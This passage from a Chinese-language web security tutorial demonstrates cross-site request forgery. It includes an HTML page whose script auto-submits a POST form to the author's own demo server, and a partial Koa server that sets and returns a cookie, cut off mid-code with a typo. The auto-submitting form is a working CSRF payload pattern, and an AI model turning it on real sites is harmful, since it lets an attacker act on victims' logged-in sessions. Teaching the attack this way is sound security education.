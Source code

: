 ```html
```

新增的页面：

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <title>Document</title>
</head>

<body>
    <form id="qhw" name="qhw" action="http://www.qinhanwen.xyz:3000/csrf" method="post">
        <input type="submit" value="submit" />
    </form>
</body>
<script>
    document.qhw.submit();
</script>

</html>
```

其实就是一个表单，向`http://www.qinhanwen.xyz:3000/csrf`接口地址，发送了一个post提交请求。



修改一下koa部分，新增`http://www.qinhanwen.xyz:3000/csrf`，响应体为key为name的Cookie

```javascript
const koa = require('koa');
const app = new koa();

const Router = require('koa-router');
const router = new Router();
const ejs = require('ejs');
const views = require('koa-views');
const path = require('path');


router.get('/setCookie', async (ctx, next) => {
    ctx.cookies.set(
        'name', 'qinhanwen', {
            path: '/',       // 写cookie所在的路径
            maxAge: 2 * 60 * 60 * 1000,   // cookie有效时长
            expires: new Date('2019-03-19'), // cookie失效时间
        }
    );
    ctx.body = {
        success: true
    };
})

router.get('/getCookie', async (ctx, next) => {
    let name = ctx.cookies.get('name')
    ctx.body = {
        name
    };
})

router.post('/csrf', async (ctx, next) => {
    let name = ctx.cookies.get('name');
    ctx.body = {
        name,orgin
    };
```